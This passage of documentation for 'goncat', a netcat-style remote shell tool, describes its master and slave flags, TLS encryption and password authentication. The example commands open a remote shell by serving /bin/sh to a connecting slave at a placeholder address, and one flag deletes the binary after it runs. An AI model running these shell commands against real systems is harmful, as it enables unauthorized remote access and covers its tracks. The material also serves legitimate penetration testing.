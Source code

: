 These flags are only available in master mode (`goncat master listen/connect`):

| Flag | Short | Description | Default |
|------|-------|-------------|---------|
| `--exec <program>` | `-e` | Execute a program on the slave | none |
| `--pty` | | Enable pseudo-terminal mode for interactive shells | `false` |
| `--log <file>` | `-l` | Log session to a file | none |
| `--local <spec>` | `-L` | Local port forwarding (see Port Forwarding) | none |
| `--remote <spec>` | `-R` | Remote port forwarding (see Port Forwarding) | none |
| `--socks <address>` | `-D` | SOCKS proxy (see SOCKS Proxy) | none |

### Slave-Specific Flags

These flags are only available in slave mode (`goncat slave listen/connect`):

| Flag | Short | Description | Default |
|------|-------|-------------|---------|
| `--cleanup` | `-c` | Delete the binary after execution | `false` |

## Authentication & Security

### Encryption with TLS

Enable encryption by adding `--ssl` to both master and slave:

```bash
# Master
goncat master listen 'tcp://*:12345' --ssl --exec /bin/sh

# Slave
goncat slave connect tcp://YOUR_IP:12345 --ssl
```

**How it works**: goncat generates ephemeral TLS certificates on each run. The server generates a certificate, and the client accepts any certificate without validation (similar to `ssh -o StrictHostKeyChecking=no`).

### Mutual Authentication

Add password-based mutual authentication with `--key`:

```bash
# Master
goncat master listen 'tcp://*:12345' --ssl --key mypassword --exec /bin/sh

# Slave
goncat slave connect tcp://YOUR_IP:12345 --ssl --key mypassword
```

**How it works**: The password is used as a seed for deterministic certificate generation. Both sides generate and validate certificates using the same password. This prevents unauthorized clients from connecting.
